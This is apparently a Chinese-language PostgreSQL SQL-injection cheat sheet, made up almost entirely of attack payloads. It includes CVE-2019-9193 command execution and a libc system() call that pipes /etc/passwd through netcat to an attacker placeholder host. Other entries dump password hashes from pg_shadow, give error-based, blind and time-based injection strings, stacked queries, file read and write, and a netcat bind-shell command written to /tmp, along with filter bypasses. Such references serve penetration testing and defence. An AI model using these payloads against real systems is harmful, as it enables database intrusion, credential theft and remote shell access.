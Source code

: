 # postgresql

## PostgreSQL 命令执行

### CVE-2019–9193

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

## 使用 libc.so.6

```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## PostgreSQL 注释

```
--
/**/
```

## PostgreSQL 链注入点符号

```
; #用于终止 SQL 命令。在语句中唯一可使用的位置是在字符串常量或引用标识符中。
|| #或语句

# 使用示例: 
/?whatever=1;(select 1 from pg_sleep(5))
/?whatever=1||(select 1 from pg_sleep(5))
```

## PostgreSQL 版本

```
SELECT version()
```

## PostgreSQL 当前用户

```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

## PostgreSQL 用户列表

```
SELECT usename FROM pg_user
```

## PostgreSQL 密码哈希列表

```
SELECT usename, passwd FROM pg_shadow 
```

## 查询数据库管理员账户列表

```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

## PostgreSQL 权限列表

```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

## 查询当前用户是否为超级用户

```
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## PostgreSQL 数据库名称

```
SELECT current_database()
```

## PostgreSQL 数据库列表

```
SELECT datname FROM pg_database
```

## PostgreSQL 表格列表

```
SELECT table_name FROM information_schema.tables
```

## PostgreSQL 列表列

```
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL 报错注入

```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML 帮助器

```
select query_to_xml('select * from pg_user',true,true,''); -- 返回所有结果作为单个 xml 行
select database_to_xml(true,true,''); -- 将当前数据库转储为 XML
select database_to_xmlschema(true,true,''); -- 将当前数据库转储为 XML 架构
```

## PostgreSQL 盲注

```
' and substr(version(),1,10) = 'PostgreSQL' and '1' -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1' -> KO
```

## PostgreSQL 时间盲注

```
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))

select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1

AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL 堆叠查询

```
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL 文件读取

```
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

## PostgreSQL 文件写入

```
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

## 绕过过滤器

引号

使用 CHR

```
SELECT CHR(65)||CHR(66)||CHR(67);
```

使用 $ 符号（适用于 PostgreSQL 8及以上版本）

```
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
```